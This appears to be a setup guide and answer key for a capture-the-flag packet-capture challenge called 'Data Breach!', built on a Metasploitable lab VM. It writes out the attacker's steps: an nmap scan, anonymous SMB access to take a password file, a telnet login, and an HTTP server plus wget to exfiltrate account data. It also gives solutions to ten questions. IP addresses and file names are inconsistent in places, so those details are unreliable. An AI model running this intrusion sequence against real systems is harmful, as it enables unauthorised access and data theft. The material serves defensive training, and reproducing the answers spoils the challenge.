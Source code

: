 # Setup

## Setting up vunerable machine

### Spinning up a metasploitable vm
https://docs.rapid7.com/metasploit/metasploitable-2/

### Creating user on vulnerable machine
sudo useradd -m bob
sudo passwd bob
ilovecookies

### Creating files for exfil
su bob
cd ~
mkdir Documents
mkdir Desktop
touch Documents/importantnote.txt
touch Desktop/financialdata.txt

### importantnote.txt
Dear me,

just in case I ever forget, here is my password: ilovecookies

     - Bob

### financialdata.csv
Account Name, Account Number, Routing Number
Alpha, 9982777635, 00125839094
Bravo, 9982739029, 00125834324
Charlie, 9982719203, 00125836594

## Pentest walkthrough for PCAP capture

### Scan Port range for active hosts
sudo nmap -sn 192.168.45.0/24

### Scan host quickly for open ports
sudo nmap -F 192.168.45.12 
sudo nmap -F 192.168.45.13  

### Get smb shares as anonymous
smbclient -L //192.168.45.12 -N

### Access tmp directory and exfill password file
smbclient //192.168.45.12/files -N
ls
get importantnote.txt
exit

### Telnet onto target
telnet 192.168.45.12
bob
ilovecookes

bob
ilovecookies

ls
cd Desktop
ls

### Create http server to exfil data (on target system)
python -m SimpleHTTPServer 4444

### Exfil financial data (From attacker machine)
wget http://192.168.45.12:4444/financial_data.csv

# Solution:

## Data Breach! Part 1
- Question: What reconnassiance technique is seen in the packet capture? (Provide MITRE T#)
- Answer: T1595
- Walkthrough:
Open packet capture in wireshark. Immediately you can see evidence of network scanning

### Data Breach! Part 2
- Question: What is the ip address of the host performing the scanning? (x.x.x.x)
- Answer: 192.168.0.160
- Walkthrough: 
Looking through the scanning packets, we find the IP address by looking at what IP is sending the ICMP request

### Data Breach! Part 3
- Question: What hosts did the scan uncover in the scanned subnet? (Comma seperated list of IPs)
- Answer: 192.168.0.12, 192.168.0.13
- Walkthrough:
Looking through the scanning packets, we can see that the hosts that were active sent back ICMP replies. 

### Data Breach! Part 4
- Question: According to the port scanning on 192.168.45.12, what is the highest open port?
Answer: 6000
- Walkthrough:
Use the filter "ip.src == 192.168.45.12" to identify what scanning was responded to with a [SYN, ACK] and not a [RST, ACK]. Identify what port is the highest among the port scanning.

### Data Breach! Part 5
- Question: What service did the attacker zero in on and start enumerating immediately following the port scanning?
- Answer: SMB

### Data Breach! Part 6
- Question: What SMB share did the attacker access?
- Answer: Files

### Data Breach! Part 7
- Question: What was the password in the file that was exfiltrated?
- Answer: ilovecookies

### Data Breach! Part 8
- Question: When the attacker first tried login into the victem via telnet, he mistyped the password. Provide the mistyped password they entered
- Answer: ilovecookes

### Data Breach! Part 9
- Question: After logging in via TCP, what protocol did the attacker use to exfil data and on what port? (ex: dns, 53)
- Answer: http, 4444

### Data Breach! Part 10
- Question: What is the first "Routing Number" listed in the exfilled file?
- Answer: 00125839094
- Walkthrough: 










